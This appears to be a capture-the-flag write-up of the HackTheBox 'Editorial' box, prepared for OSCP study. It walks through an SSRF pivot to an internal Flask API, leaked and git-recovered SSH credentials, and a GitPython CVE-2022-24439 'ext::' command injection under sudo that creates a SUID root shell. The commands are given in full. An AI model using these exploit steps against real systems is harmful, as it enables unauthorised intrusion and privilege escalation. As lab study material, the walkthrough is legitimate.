 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)

- **Exploits Used:**  
  - SSRF in image upload to hit internal Flask API  
  - Internal API enumeration for dev SSH creds  
  - Git repo recovery for prod SSH creds  
  - CVE‑2022‑24439 GitPython “ext::” RCE via sudo  

**Open Ports:**  
- [SSH](SSH) 22/tcp  
- [HTTP](HTTP) 80/tcp  

**Tools:**  
nmap, ffuf, feroxbuster, Burp Suite, curl, git‑dumper, git, unzip/zip, Python 3 (requests), sshpass  

---

## Recon 🔍  
```bash
nmap -p- --min-rate 10000 10.10.11.20
```

```
nmap -p 22,80 -sCV       10.10.11.20
```

```

# Fuzz internal ports via SSRF endpoint
ffuf -u http://editorial.htb/upload-cover \
     -request ssrf.request \
     -w <(seq 0 65535) -ac
```

---

## Shell as dev 🐚  
1. **Exploit SSRF** on `/upload-cover` by supplying `http://127.0.0.1:5000` → retrieve JSON from internal API.  
2. **Enumerate endpoints**, hit `/api/latest/metadata/messages/authors` → leak:  
   ```
   Username: dev
   Password: dev080217_devAPI!@
   ```  
3. **SSH in** as dev:  
   ```bash
   sshpass -p 'dev080217_devAPI!@' ssh dev@editorial.htb
   cat user.txt
   ```

---

## Shell as prod 👤  
1. **Recover deleted apps repo** in `~/apps/.git`:  
   ```bash
   cd ~/apps
   git checkout .
   ```  
2. **Inspect git history** (`git log`) and diff `app_api/app.py` → find prod creds:  
   ```
   Username: prod
   Password: 080217_Producti0n_2023!@
   ```  
3. **SSH in** as prod:  
   ```bash
   sshpass -p '080217_Producti0n_2023!@' ssh prod@editorial.htb
   ```

---

## Shell as root 👑  
1. **Check sudo:**  
   ```bash
   sudo -l
   # Allows: python3 clone_prod_change.py *
   ```  
2. **Abuse GitPython RCE (CVE‑2022‑24439):**  
   ```bash
   sudo python3 /opt/internal_apps/clone_changes/clone_prod_change.py \
     'ext::sh -c "cp /bin/sh /tmp/rootshell; chmod 4755 /tmp/rootshell"'
   /tmp/rootshell -p
   whoami   # → root
   cat /root/root.txt
   ```

---

## Actions Learned 🎓  
- SSRF pivot to internal API  
- Automated API enumeration for creds  
- Git repo forensic recovery  
- GitPython protocol extension RCE via sudo  
- Crafting SUID shell via RCE  

---

## References 🔗  
- [CVE‑2022‑24439 — GitPython protocol.ext.allow exploit](https://nvd.nist.gov/vuln/detail/CVE-2022-24439)  
- Flask SSRF patterns in image‑upload handlers  
- GitPython `clone_from(..., multi_options=["-c protocol.ext.allow=always"])` behavior